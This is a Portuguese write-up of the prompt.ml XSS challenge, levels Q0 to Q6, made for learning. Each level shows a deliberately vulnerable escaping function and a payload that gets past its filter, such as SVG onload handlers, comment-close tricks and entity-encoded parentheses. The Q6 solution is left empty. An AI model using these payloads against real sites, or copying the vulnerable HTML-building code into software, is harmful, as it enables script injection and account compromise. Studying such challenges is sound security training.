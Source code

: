 # XSS - Writeup


## Questões

### Q0

#### Enunciado
```js
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}        
```

#### Resolução
<details>
<summary>
Visualizar resolução
</summary>
O valor de entrada do usuário é apenas concatenado ao texto que compõe o HTML. Portanto, basta finalizarmos a tag HTML aberta anteriormente, e abrir uma nova tag `<script>`, ou outro codigo executável:

``` html
"> <svg/onload=prompt(1)>
```
</details>


### Q1

#### Enunciado
```js
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}
```

#### Resolução
<details>
<summary>
Visualizar resolução
</summary>
Nessa questão são removidos todas as tags completas (por exemplo, `<elemento>`). Portanto, basta inserir uma tag incompleta, porém válida, como o svg inserido anteriormente:
``` txt
&lt;svg/onload=prompt(1)
```
</details>

### Q2

#### Enunciado
``` js
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}
```

#### Resolução
<details>
<summary>
Visualizar resolução
</summary>
Agora, por remover qualquer ocorrência de sinais igual "=" ou abertura de parênteses "(", não podemos usar atributos como "onload=..." ou comandos javascript como "prompt(..". A solução é enviar o caracter HTML `&$40;`, que representa a abertura de parenteses:

``` html
<svg><script>prompt&#40;1)</script>
```

OBS: é necessário a abertura de uma tag `<svg>` previamente, já que esta permite a execução de scripts internos.
</details>


### Q3

#### Enunciado
``` js
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}
```

#### Resolução
<details>
<summary>
Visualizar resolução
</summary>
Nesse problema, a entrada é comentada, e "qualquer" tentativa de fechamento do comentário html é substituida. Mais especificamente, a sequencia de caracteres `->`. A solução, portanto, é aproveitarmos do mecanismo interno dos navegadores que aceitam fechamentos de tag incorretas, incluindo, no nosso caso, a sequencia `--!>`. Portanto, basta que se use:
``` html
--!><svg/onload=prompt(1)>
```
</details>


### Q4
#### Enunciado
``` js
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
} 
```
#### Solucao
Nesse caso, infelizmente é necessário a utilização de um domínio externo.

### Q5

#### Enunciado
``` js
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}
```

#### Resolução
<details>
<summary>
Visualizar resolução
</summary>
Nessa questão, ambos fechamento de tag `>` e event handlers são filtados. Entretanto, ambas verificações podem sofrer *bypass*, basta:
- Utilizarmos a tag já aberta
- Modificarmos para que a sequência filtrada (`on.+?=`) não funcione corretamente:
``` html
"type=image src onerror
="prompt(1)
```
</details>

### Q6

#### Enunciado
``` js
function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
        var formURL = segments[0];
        var formData = JSON.parse(segments[1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';

        for (var i in formData) {
            var input = form.appendChild(document.createElement('input'));
            input.name = i;
            input.setAttribute('value', formData[i]);
        }

        return form.outerHTML + '                         \n\
<script>                                                  \n\
    // forbid javascript: or vbscript: and data: stuff    \n\
    if (!/script:|data:/i.test(document.forms[0].action)) \n\
        document.forms[0].submit();                       \n\
    else                                                  \n\
        document.write("Action forbidden.")               \n\
</script>                                                 \n\
        ';
    } catch (e) {
        return 'Invalid form data.';
    }
}
```

#### Resolução
<details>
<summary>
Visualizar resolução
</summary>

``` html

```
</details>
